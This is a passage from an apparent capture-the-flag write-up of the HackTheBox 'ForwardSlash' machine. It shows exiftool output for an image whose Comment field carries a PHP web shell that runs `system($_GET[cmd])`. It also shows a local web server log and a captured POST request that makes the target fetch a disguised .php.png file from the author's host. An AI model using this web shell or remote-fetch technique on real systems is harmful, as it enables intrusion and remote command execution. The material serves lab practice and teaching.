 ```bash
Location Shown                  : 
Artwork Or Object               : 
Registry ID                     : 
History Action                  : created, saved, saved
History Instance ID             : xmp.iid:6afb364d-9354-784d-97b7-e4f0a63a04dd, xmp.iid:68d2f01e-aab1-2143-8136-b201c75840c0, xmp.iid:c7425007-2d74-4bff-8cd1-9e177099d117
History Software Agent          : Adobe Photoshop CC 2015 (Windows), Adobe Photoshop CC 2015 (Windows), Gimp 2.10 (Linux)
History When                    : 2019:05:26 13:39:06+01:00, 2019:05:26 13:48:22+01:00, +01:00
History Changed                 : /, /
Image Supplier                  : 
Image Creator                   : 
Copyright Owner                 : 
Licensor                        : 
Background Color                : 40 26 26
Pixels Per Unit X               : 4298
Pixels Per Unit Y               : 4298
Pixel Units                     : meters
Modify Date                     : 2019:05:27 11:34:17
Comment                         : <?php echo "<pre>"; system($_GET[cmd]); ?>
Image Size                      : 841x1287
Megapixels                      : 1.1
Thumbnail Image                 : (Binary data 4866 bytes, use -b option to extract)
```

Lets try.

```bash
kali@kali:~$ python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.183 - - [05/Jul/2020 07:03:35] "GET /defaced.png HTTP/1.0" 200 -
```

The access to my local webserver works, but it seems that the image is not saved on the server.

![file_access](../../../../assets/images/hackthebox/forwardslash/7_access_successfully.png)

In the second try I used burp to capture the request.

![burp](../../../../assets/images/hackthebox/forwardslash/8_burp_captured_request.png)

So maybe it's possible to modify the url attribute with a php function refered to [this](https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/).

This was my original request.
```bash
POST /profilepicture.php HTTP/1.1
Host: backup.forwardslash.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://backup.forwardslash.htb/profilepicture.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Connection: close
Cookie: PHPSESSID=uo0h87rn28qnns04bcgvipcdfs
Upgrade-Insecure-Requests: 1

url=http%3A%2F%2F10.10.14.6%3A8000%2Fdefaced_mod.php.png
```
